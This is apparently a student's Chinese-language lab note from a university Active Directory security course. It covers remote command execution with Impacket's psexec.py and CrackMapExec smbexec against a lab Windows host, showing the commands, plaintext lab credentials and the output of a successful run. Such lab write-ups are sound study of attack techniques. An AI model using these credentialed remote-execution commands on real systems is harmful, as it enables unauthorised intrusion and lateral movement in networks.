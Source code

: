 ```yaml
---
title: NTUSTISC - AD Note - Lab(遠端執行(RDP)2)
tags: [NTUSTISC, AD, information security]

category: "Security/Course/NTUST ISC/AD/4. 遠端執行-讀檔"
---
```


# NTUSTISC - AD Note - Lab(遠端執行(RDP)2)
<!-- more -->
[TOC]

Lecture Video: [ 2022/05/11 AD 安全 2 ](https://youtu.be/ubNMQ7_dcm0?si=26g2Lz2CB-O-7S5d)

## Background
[NTUSTISC - AD Note - Lab(Password Spraying)](https://hackmd.io/@SBK6401/Byk16MV0n)
[滲透測試的利器 - Impacket](https://sectools.tw/impacket/): 
> python撰寫的內網滲透工具

## Lab

### ==遠端執行(RDP)2==
* Kali-Linux Tools
    * Impacket(Kali-Linux愛好者可使用的PsExec)
        ```bash
        # Set up & Install
        $ git clone https://github.com/fortra/impacket.git
        $ cd impacket
        $ conda activate py3.7 # Recommended to install it in conda
        $ pip3 install -r requirements.txt
        $ python3 setup.py install
        
        # Cheat-Sheet
        $ conda activate py3.7
        $ proxychains psexec.py <username>:<password>@<ip> whoami
        ```
    * CrackMapExec
        ```bash
        $ crackmapexec smb [IP] -u <username> -p <password --exec-method smbexec -x '<command>'
        ```
        exec-method支援以下方法:
            * mmcexec
            * smbexec
            * wmiexec
            * atexec

#### ==How to use Impacket==
感覺應該是proxychains壞掉了，或是有一些其他問題，導致Connection Refused，總而言之，這套工具就是讓kali-linux也可以使用psexec這個工具
```bash
$ proxychains psexec.py kuma\administrators:1qaz@WSX3edc@192.168.222.129 dir
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
Impacket v0.12.0.dev1+20230928.173259.06217f05 - Copyright 2023 Fortra

[proxychains] Strict chain  ...  127.0.0.1:9050  ...  timeout
[-] [Errno Connection error (192.168.222.129:445)] [Errno 111] Connection refused
```

#### ==How to use CrackMapExec==
還記的之前的Lab([NTUSTISC - AD Note - Lab(Password Spraying)](https://hackmd.io/@SBK6401/Byk16MV0n))，有使用過這套工具，當時是為了做密碼揮灑的目的，不過考慮到psexec這個工具本質上就是爬到遠端的主機，然後開execve的process，並且跟他溝通，所以在這樣的前提下，就可以直接用CrackMapExec達到和psexec一樣的效果，畢竟兩者本質是做的事情差不多
:::spoiler Execution Result
```bash
$  crackmapexec smb 192.168.222.129 -u administrator -p 1qaz@WSX3edc --exec-method smbexec -x 'dir C:\tools'
SMB         192.168.222.129 445    DESKTOP-G95U93T  [*] Windows 10.0 Build 18362 x64 (name:DESKTOP-G95U93T) (domain:kuma.org) (signing:False) (SMBv1:False)
SMB         192.168.222.129 445    DESKTOP-G95U93T  [+] kuma.org\administrator:1qaz@WSX3edc (Pwn3d!)
SMB         192.168.222.129 445    DESKTOP-G95U93T  [+] Executed command via smbexec
SMB         192.168.222.129 445    DESKTOP-G95U93T  ║╧║╨░╧ C ññ¬║║╧║╨¿Sª│╝╨┼╥íC
SMB         192.168.222.129 445    DESKTOP-G95U93T  ║╧║╨░╧º╟╕╣:  C230-62CE
SMB         192.168.222.129 445    DESKTOP-G95U93T  
SMB         192.168.222.129 445    DESKTOP-G95U93T  C:\tools ¬║Ñ╪┐²
SMB         192.168.222.129 445    DESKTOP-G95U93T  
SMB         192.168.222.129 445    DESKTOP-G95U93T  2023/09/17  ñUñ╚ 03:15    <DIR>          .
SMB         192.168.222.129 445    DESKTOP-G95U93T  2023/09/17  ñUñ╚ 03:15    <DIR>          ..
SMB         192.168.222.129 445    DESKTOP-G95U93T  2023/09/04  ñWñ╚ 12:57    <DIR>          AccessChk
SMB         192.168.222.129 445    DESKTOP-G95U93T  2021/06/22  ñUñ╚ 02:58         1,379,216 accesschk.exe
SMB         192.168.222.129 445    DESKTOP-G95U93T  2023/08/28  ñUñ╚ 11:41    <DIR>          BloodHound-master
SMB         192.168.222.129 445    DESKTOP-G95U93T  2023/08/27  ñWñ╚ 11:32    <DIR>          BloodHound-win32-x64
SMB         192.168.222.129 445    DESKTOP-G95U93T  2023/08/29  ñWñ╚ 01:24    <DIR>          BloodHound-win32-x64-4.1.0
SMB         192.168.222.129 445    DESKTOP-G95U93T  2021/09/29  ñWñ╚ 01:19           373,760 Certify.exe
SMB         192.168.222.129 445    DESKTOP-G95U93T  2021/09/29  ñUñ╚ 02:39         1,137,664 DNSAdmin-DLL.dll
SMB         192.168.222.129 445    DESKTOP-G95U93T  2023/09/04  ñWñ╚ 10:02           443,650 Invoke-NinjaCopy.ps1
SMB         192.168.222.129 445    DESKTOP-G95U93T  2021/09/29  ñUñ╚ 04:50    <DIR>          KDU-1.1.0
SMB         192.168.222.129 445    DESKTOP-G95U93T  2023/09/17  ñUñ╚ 12:08             1,590 Kerberos-AS-REP.txt
SMB         192.168.222.129 445    DESKTOP-G95U93T  2005/01/17  ñUñ╚ 05:23            22,528 KmdManager.exe
SMB         192.168.222.129 445    DESKTOP-G95U93T  2021/09/29  ñUñ╚ 04:50    <DIR>          mimikatz_trunk
SMB         192.168.222.129 445    DESKTOP-G95U93T  2023/08/27  ñWñ╚ 11:31    <DIR>          neo4j-community-4.3.4
SMB         192.168.222.129 445    DESKTOP-G95U93T  2021/09/29  ñUñ╚ 04:51    <DIR>          nopad
SMB         192.168.222.129 445    DESKTOP-G95U93T  2021/09/28  ñUñ╚ 11:09            27,136 PrintSpoofer64.exe
SMB         192.168.222.129 445    DESKTOP-G95U93T  2023/09/05  ñWñ╚ 11:51    <DIR>          Procdump
SMB         192.168.222.129 445    DESKTOP-G95U93T  2021/09/29  ñUñ╚ 05:08    <DIR>          ProcessExplorer
SMB         192.168.222.129 445    DESKTOP-G95U93T  2021/09/29  ñUñ╚ 05:08    <DIR>          PSTools
SMB         192.168.222.129 445    DESKTOP-G95U93T  2021/09/29  ñWñ╚ 12:27           301,056 Rubeus.exe
SMB         192.168.222.129 445    DESKTOP-G95U93T  2023/09/04  ñUñ╚ 11:33    <DIR>          Sysmon
SMB         192.168.222.129 445    DESKTOP-G95U93T  2021/09/29  ñUñ╚ 04:50    <DIR>          Windows-Kernel-Explorer-master
SMB         192.168.222.129 445    DESKTOP-G95U93T  2023/09/06  ñWñ╚ 11:12    <DIR>          Zip Folders
SMB         192.168.222.129 445    DESKTOP-G95U93T  8 ¡╙└╔«╫       3,686,600 ª∞ñ╕▓╒
SMB         192.168.222.129 445    DESKTOP-G95U93T  16 ¡╙Ñ╪┐²  16,192,659,456 ª∞ñ╕▓╒ÑiÑ╬
```
:::

## Reference
